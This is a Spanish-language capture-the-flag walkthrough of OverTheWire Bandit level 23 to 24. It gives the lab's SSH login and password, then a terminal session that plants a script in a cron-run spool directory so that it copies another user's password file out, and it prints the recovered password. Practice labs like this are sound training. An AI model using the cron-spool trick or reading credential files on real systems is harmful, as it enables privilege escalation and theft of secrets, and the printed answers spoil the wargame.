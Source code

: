# Retos Bandit #24
# Level 23 ->  24

# Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

# Datos de acceso
ssh bandit23@**bandit.labs.overthewire.org** -p2220

user: bandit23
pass: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

# Solucion 
```bash
bandit23@bandit:~$ cat /etc/cron
cron.d/       cron.hourly/  crontab       
cron.daily/   cron.monthly/ cron.weekly/  
bandit23@bandit:~$ cat /etc/cron
cron.d/       cron.hourly/  crontab       
cron.daily/   cron.monthly/ cron.weekly/  
bandit23@bandit:~$ cat /etc/cron.
cron.d/       cron.daily/   cron.hourly/  cron.monthly/ cron.weekly/
bandit23@bandit:~$ cat /etc/cron.d
cron.d/     cron.daily/ 
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_banditb_24
cat: /usr/bin/cronjob_banditb_24: No such file or directory
bandit23@bandit:~$ mkdir /tmp/bandscho
bandit23@bandit:~$ cd /tmp/bandscho
bandit23@bandit:/tmp/bandscho$ echo "cat /etc/bandit_pass/bandit24 > /tmp/bandscho/password"
cat /etc/bandit_pass/bandit24 > /tmp/bandscho/password
bandit23@bandit:/tmp/bandscho$ echo "cat /etc/bandit_pass/bandit24 > /tmp/bandscho/password" > bandscho.sh
bandit23@bandit:/tmp/bandscho$ cat bandscho.sh 
cat /etc/bandit_pass/bandit24 > /tmp/bandscho/password
bandit23@bandit:/tmp/bandscho$ chmod 777 bandscho.sh bandscho.sh 
bandit23@bandit:/tmp/bandscho$ touch password
bandit23@bandit:/tmp/bandscho$ chmod 666 password 
bandit23@bandit:/tmp/bandscho$ ls -la
total 192
drwxrwxr-x    2 bandit23 bandit23   4096 Sep  6 13:34 .
drwxrwx-wt 4821 root     root     184320 Sep  6 13:33 ..
-rwxrwxrwx    1 bandit23 bandit23     55 Sep  6 13:33 bandscho.sh
-rw-rw-rw-    1 bandit23 bandit23      0 Sep  6 13:34 password
bandit23@bandit:/tmp/bandscho$ cp bandscho.sh /var/spool/bandit24/foo/
bandit23@bandit:/tmp/bandscho$ date
Tue Sep  6 01:36:07 PM UTC 2022
bandit23@bandit:/tmp/bandscho$ date
Tue Sep  6 01:36:33 PM UTC 2022
bandit23@bandit:/tmp/bandscho$ ls -la
total 196
drwxrwxr-x    2 bandit23 bandit23   4096 Sep  6 13:34 .
drwxrwx-wt 4821 root     root     184320 Sep  6 13:35 ..
-rwxrwxrwx    1 bandit23 bandit23     55 Sep  6 13:33 bandscho.sh
-rw-rw-rw-    1 bandit23 bandit23     33 Sep  6 13:37 password
bandit23@bandit:/tmp/bandscho$ cat password 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

# Notas adicionales
Ver el cronjob y mostrar el scrip para entender lo que hace, creamos una carpeta temporal y creamos un pequeo scrip, despues lo copiamos a la carpeta que nos decia, esperamos un minuto y despues arroja el password.

# Referencias 